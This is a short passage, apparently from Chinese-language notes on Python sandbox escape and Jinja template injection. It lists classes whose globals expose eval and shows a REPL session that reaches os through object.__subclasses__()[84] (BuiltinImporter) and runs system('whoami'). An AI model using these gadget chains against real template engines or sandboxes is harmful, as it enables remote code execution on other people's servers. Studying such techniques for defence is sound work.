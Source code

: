 使用了eval的gadgets类

```
warnings.catch_warnings
WarningMessage
codecs.IncrementalEncoder
codecs.IncrementalDecoder
codecs.StreamReaderWriter
os._wrap_close
reprlib.Repr
weakref.finalize
```

通过找**_frozen_importlib.BuiltinImporter**类导入**os**模块也可以rce

```python
>>> object.__subclasses__()[84]
<class '_frozen_importlib.BuiltinImporter'>
>>> object.__subclasses__()[84].load_module('os')
<module 'os' (built-in)>
>>> object.__subclasses__()[84].load_module('os').system('whoami')
bacon
```

# Reference

https://stackoverflow.com/questions/10401935/python-method-wrapper-type

https://jinja.palletsprojects.com/en/3.0.x/
